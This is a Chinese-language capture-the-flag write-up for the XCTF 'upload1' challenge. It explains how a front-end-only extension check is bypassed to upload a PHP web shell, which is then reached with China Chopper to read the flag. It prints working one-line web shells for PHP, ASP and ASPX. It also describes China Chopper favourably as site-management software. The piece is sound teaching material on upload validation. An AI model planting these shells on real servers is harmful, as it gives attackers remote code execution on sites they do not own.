





[题目地址](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4822&page=1)

**题目名称**：upload1

**题目描述：**暂无

<!-- more -->

##### WriteUp:

###### **上传一句话木马**

看题目名称应该就知道是文件上传了，创建场景，点击链接页面如下：


先选择一个php后缀文件上传，提示要上传图片


上传一张jpg后缀图片上传，没有反应应该是上传成功了，新建一个文本文件，内容为php一句话木马：

```php
<?php @eval($_POST['pass'])?>
```

把文件后缀改成jpg格式，选择文件然后点击上传并用burpsuite工具抓包（浏览器需开代理）



然后把文件名.jpg后缀去掉，发送请求，可以看到一句话木马上传成功，存储路径为：upload/1603442923.upload.php



###### 菜刀连接

打开“中国菜刀”工具，添加url，配置如下：



双击这个url就可以连接到服务器了，可以看到我们上传的内容，其中就有我们的一句话木马文件（我这里是上传过很多次）



当前目录的上级目录就包含flag.php文件，打开后得到flag



```php
<?php
$flag="cyberpeace{5bcd10d9509d29e1df1ff237b06e51e4}";
?>

```

##### 总结

开始上传php后缀文件失败，提示上传一张图片，而把php文件中的内容不变只加了个jpg后缀就上传成功了，是因为上传文件的判断是在前端进行的，只检测了上传文件的后缀，并没有对文件真正的格式进行校验，所以使用burpsuite代理就可以轻松绕过前端校验。

以前做java后台开发的时候还在疑惑前端已经校验了表单传过来的数据，后端还要再校验一次吗？？？现在就很清楚了，只要是前端校验的东西都可以通过代理绕过。

##### **知识点**

**中国菜刀：**

中国菜刀，是一款专业的网站管理软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行管理！在主视图中右键/添加，在弹出的对话框中输入服务端地址，连接的密码(请注意上例中的pass字串)，选择正确的脚本类型和语言编码，保存后即可使用文件管理，虚拟终端，数据库管理三大块功能。

**一句话木马：**

- “一句话木马"服务端（是用于本地的html提交脚本木马文件）
  就是我们要用来插入到asp文件中的asp语句，（不仅仅是以asp为后缀的数据库文件），该语句将回为触发，接收入侵者通过客户端提交的数据，执行并完成相应的操作，服务端的代码内容为 <%execute request("value")%> 其中value可以自己修改

- "一句话木马"客户端（远程服务器上被插入一句话的asp可执行文件）
  用来向服务端提交控制数据的，提交的数据通过服务端构成完整的asp功能语句并执行，也就是生成我们所需要的asp木马文件 <%execute(request("value"))%>

  ```
  asp一句话木马：
  	<%execute(request("value"))%>
  php一句话木马：
  	<?php @eval($_POST[value]);?>
  aspx一句话木马：
  	<%@ Page Language="Jscript"%>
  	<%eval(Request.Item["value"])%>
  ```

  